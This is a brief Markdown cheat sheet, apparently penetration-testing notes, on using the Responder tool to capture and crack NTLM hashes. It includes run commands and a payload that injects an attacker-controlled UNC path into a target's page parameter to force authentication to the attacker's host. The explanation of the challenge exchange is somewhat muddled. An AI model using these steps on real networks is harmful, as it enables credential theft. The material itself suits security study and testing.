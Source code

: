 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with

	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)

Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge

	http:\\<target_ip>/?page=//<our_ip>/somefile

	or

	gci \\<local_ip>\share\somefile #from powershell

You should see the hash printed on Responder. Save the hash to a file and crack it with a tool like johntheripper or hashcat
## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use

